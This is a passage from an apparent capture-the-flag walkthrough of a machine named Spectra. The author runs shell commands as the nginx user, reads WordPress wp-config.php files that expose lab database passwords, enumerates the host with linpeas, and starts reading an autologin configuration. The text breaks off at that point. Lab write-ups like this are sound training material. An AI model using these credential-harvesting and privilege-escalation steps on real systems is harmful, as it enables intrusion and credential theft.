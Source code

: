 
3. When first getting access to wp-admin we did it through one of the wp-config-files, however we could not reach the other one.
Maybe there's another set of creds there. To find the location of the web directory we can search for 'wordpress' using find.

  nginx@spectra / $ find . -name wordpress 2> >(grep -v 'Permission denied' >&2)
    ./usr/local/share/nginx/html/main/wp-includes/js/tinymce/plugins/wordpress

  nginx@spectra /usr/local/share/nginx/html/testing $ cat wp-config.php
    define( 'DB_NAME', 'dev' );
    define( 'DB_USER', 'devtest' );
    define( 'DB_PASSWORD', 'devteam01' );

Same creds unfortunately. But how about the main page's wp-config.php?

  nginx@spectra /usr/local/share/nginx/html/main $ cat wp-config.php
    define( 'DB_NAME', 'dev' );
    define( 'DB_USER', 'dev' );
    define( 'DB_PASSWORD', 'development01' );
    $table_prefix = 'wp_';

The password is not reused for any of the user accounts, so seems like this is a dead end as well. Check if there are any
other services running locally on the system.


  nginx@spectra /dev/shm $ chmod +x linpeas.sh
  nginx@spectra /dev/shm $ ./linpeas.sh
    bash: ./linpeas.sh: Permission denied

  nginx@spectra /tmp $ bash linpeas.sh
    [+] Active Ports
    [i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#internal-open-ports
    Active Internet connections (servers and established)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
    tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
    tcp        0      0 127.0.0.1:9000          0.0.0.0:*               LISTEN      -
    tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN      -

From linpeas we find nothing really useful, only that there are some service running on port 9000 locally that we can't reach.
This next step took me a few hours, but then finally I found;

  nginx@spectra /opt $ cat autologin.conf.orig
    # Copyright 2016 The Chromium OS Authors. All rights reserved.
    # Use of this source code is governed by a BSD-style license that can be
    # found in the LICENSE file.
    description   "Automatic login at boot"
    author        "chromium-os-dev@chromium.org"
    # After boot-complete starts, the login prompt is visible and is accepting
    # input.
    start on started boot-complete
    script
      passwd=